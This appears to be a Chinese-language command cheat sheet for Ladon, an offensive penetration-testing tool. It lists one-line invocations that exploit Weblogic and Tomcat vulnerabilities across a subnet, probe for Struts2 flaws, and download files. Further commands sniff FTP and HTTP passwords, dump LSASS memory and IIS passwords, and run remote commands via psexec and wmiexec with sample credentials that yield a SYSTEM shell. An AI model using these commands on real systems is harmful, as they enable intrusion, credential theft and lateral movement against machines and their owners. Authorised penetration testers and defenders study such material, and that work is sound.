 ```

##Weblogic漏洞利用(CVE-2019-2725)
Ladon 192.168.1.8/24 WeblogicExp

##Tomcat漏洞利用(CVE-2017-12615)
Ladon 192.168.1.8/24 TomcatExp

##Struts2漏洞检测(S2-005/S2-009/S2-013/S2-016/S2-019/S2-032/DevMode)
Ladon 192.168.1.8/24 Struts2Poc

FTP下载、HTTP下载
##HTTP下载
Ladon HttpDownLoad http://k8gege.org/Download/Ladon.rar

##Ftp下载
Ladon FtpDownLoad 127.0.0.1:21 admin admin test.exe

加密解密(HEX/Base64)
##Hex加密解密
Ladon 123456 EnHex Ladon 313233343536 DeHex

##Base64加密解密
Ladon 123456 EnBase64 Ladon MTIzNDU2 DeBase64

网络嗅探
##Ftp密码嗅探
Ladon FtpSniffer 192.168.1.5

##HTTP密码嗅探
Ladon HTTPSniffer 192.168.1.5

##网络嗅探
Ladon Sniffer

密码读取
##读取IIS站点密码、网站路径
Ladon IISpwd

##DumpLsass内存密码
Ladon DumpLsass

信息收集
##进程详细信息
Ladon EnumProcess Ladon Tasklist

##获取命令行参数
Ladon cmdline Ladon cmdline cmd.exe

##获取渗透基础信息
Ladon GetInfo Ladon GetInfo2

##NET & PowerShell版本
Ladon NetVer Ladon PSver Ladon NetVersion Ladon PSversion


远程执行(psexec/wmiexec/atexec/sshexec)
##445端口 PSEXEC远程执行命令（交互式）
net user \192.168.1.8 k8gege520 /user:k8gege Ladon psexec 192.168.1.8 psexec> whoami nt authority\system

##135端口 WmiExec远程执行命令 （非交互式）
Ladon wmiexec 192.168.1.8 k8gege k8gege520 whoami

```